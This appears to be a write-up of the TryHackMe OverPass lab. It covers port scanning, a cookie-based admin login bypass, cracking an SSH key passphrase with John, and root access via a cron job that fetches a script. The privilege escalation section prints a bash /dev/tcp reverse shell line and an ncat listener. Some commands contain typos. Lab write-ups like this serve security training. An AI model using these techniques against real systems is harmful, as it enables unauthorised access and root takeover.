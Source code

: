# TryHackMe-OverPass Machine
----------------------------------------------------------------------
## Methodology:
1. Enumeration & Scanning
2. Enumerating HTTP
3. Privilege Escalation
----------------------------------------------------------------------
## 1- Start With Enumeration
#### Scanning the target Machine Using Nmap ==>> `nmap -sC -sV [Target IP]`
```
root@mahmoud:~# nmap -sC -sV 10.10.48.101
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 19:12 EET
Nmap scan report for 10.10.48.101
Host is up (0.66s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 107.01 seconds

```
### So Here W found out there Two open ports:
### 1- SSH 22 OpenSSH
### 2- HTTP 80 Golang net/http server
-------------------------------------------------------------------
## Enumerating HTTP
#### Then Let's Brute Force to searching the files on the web server
#### using command ` gobuster dir -u http://10.10.48.101 -w ~/Lists/gobuster/Gobuster-Dir-Medium.txt -t 30`
### The Result:
```
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]
/admin                (Status: 301) [Size: 42] [--> /admin/]
/css                  (Status: 301) [Size: 0] [--> css/]
```
-------------------------------------------------------------------

## Let's Open /admin Directory
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM3.png)
### I have tried the popular credentials... but it's incorrect credentials
### I have opened inspect element to check if there's a js file and i found that there's a 3 js files in debugger
### the login.js is vulnerable...
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Nax/blob/main/img/THM2.png)
### it says that if the response of the authentication request is not “Incorrect Credentials” if the authentication was successful, it then sets the SessionToken to “statusOrCookie”:
### so let's add `cookie: SessionToken=statusOrCookie`
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM4.png)
### The Result:
![Image of mahmoudashraf1344](https://github.com/0x1mahmoud/TryHackMe-Overpass/blob/main/img/THM5.png)
#### Let's save this ssh key to file like `key` and now we have the username is `james`
#### move forward to using the SSH2John tool to extract the hash from the key
#### First: `root@mahmoud:~# /usr/share/john/ssh2john.py key > hash` ==> I Extract The Hash From key File so i got a "hash" file
#### Second: `root@mahmoud:~# john --wordlist=/usr/share/wordlists/rockyou.txt hash` ==> Now i got the key: james13
#### Note: this is just a key we will login with it via SSH it's not the james password
#### Now we can log in as james via SSH using the private SSH key and the cracked password. ==> `root@mahmoud:~# ssh -i key james@10.10.48.101`
#### after you logged in you will find user.txt it's your first flag :))
----------------------------------------------------------------------------------
## Privilege Escalation
#### 1. Transferring LinPeas using the Python Simple HTTP Server and Wget:
#### 2. Running LinPeas file you transferred to enumerate the machine:==> It means there is a cron job running as root which executes Curl against overpass.thm/dwnloads/src/buildscript.sh
#### 3. overpass.thm is a points at localhost also the /etc/hosts file can be modified by all users so Replacing the overpass.thm entry in /etc/hosts with the local Kali machine’s IP address from 127.0.0.1 to (Kali machine's IP)
#### 4. Creating a Bash script to reverse shell and connect back to the Kali host
#### The Script Code:
```
bash -i >& /dev/tcp/[Your Kali IP]/[PORT] 0>&1

```
#### 5. Then i will Transferring the reverse shell file "buildscript.sh" to the Target Machine
#### 6. let's open the listener by ncat ==> `nact -lnvp [PORT]`
#### 7. the final step run linPeas file again to execute the reverse shell file "buildscript"
#### 8. You will get a root shell to the machine and the second flag in root.txt
-------------------------------------------------------------------------------------------------------
Happy Hack :))
